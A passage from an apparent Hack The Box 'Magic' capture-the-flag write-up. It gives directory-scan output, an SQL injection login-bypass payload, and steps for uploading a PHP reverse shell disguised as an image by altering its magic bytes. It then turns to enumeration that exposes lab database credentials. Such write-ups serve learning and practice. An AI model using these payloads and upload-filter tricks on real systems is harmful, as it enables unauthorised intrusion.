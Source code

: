```bash
/.htaccess.html       (Status: 403) [Size: 274]
/.hta.txt             (Status: 403) [Size: 274]
/assets               (Status: 301) [Size: 307] [--> http://magic.htb/assets/]
/images               (Status: 301) [Size: 307] [--> http://magic.htb/images/]
/index.php            (Status: 200) [Size: 4052]
/index.php            (Status: 200) [Size: 4053]
/login.php            (Status: 200) [Size: 4221]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/server-status        (Status: 403) [Size: 274]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
```

### 2.3 Vulnerability
Space was not accepted in the form as valid character thus use the `/* */` comment as valid delimiter and got a 302 request.
SQL Injection Payload: `username=admin&password=admin'OR/**/'1'='1` 
{{< figure src="/images/MagicPic/sqlreq-comment.png" title="Authentication Bypass using SQL Injection" >}}

Followed Redirection: 
{{< figure src="/images/MagicPic/follow-redirection.png" title="Redirected to `/upload.php`" >}}


### 2.4 Establishing Foothold via Image Upload
It is pentest monkey's reverse shell. Altered the extension and edited the magic number using hexedit as only image file were allowed through the filter.
{{< figure src="/images/MagicPic/file-upload.png" title="Uploading Reverse Shell" >}}

Triggered payload and got reverse shell. Inspecting source code revealed the destination where uploaded content was saved. Thus, used a GET request to trigger its execution on server's side.
{{< figure src="/images/MagicPic/reverse-shell.png" title="Reverse Shell" >}}


## 3. Privilege Escalation (Horizontal and Vertical)

### 3.1 Enumerating File System
Found credentials to a mysql database in `db.php5`. Database: `Magic`, Host: `localhost`, Username: `theseus` and Password: `iamkingtheseus`
```bash
www-data@ubuntu:/var/www/Magic$ ls
total 52
drwxr-xr-x 4 www-data www-data 4096 Jul 12  2021 .
drwxr-xr-x 4 root     root     4096 Jul  6  2021 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jul  6  2021 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 db.php5
drwxr-xr-x 4 www-data www-data 4096 Jul  6  2021 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
```
```php
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

```